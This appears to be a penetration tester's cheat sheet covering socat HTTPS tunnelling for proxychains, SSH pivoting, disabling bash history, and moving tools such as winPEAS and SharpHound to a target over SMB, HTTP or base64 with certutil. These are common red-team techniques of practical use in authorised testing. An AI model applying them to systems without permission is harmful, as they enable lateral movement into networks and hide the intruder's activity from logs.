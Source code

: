 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  
     
  
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
*(Several techniques are from <https://notes.qazeer.io/general/file_transfer>)*    
  
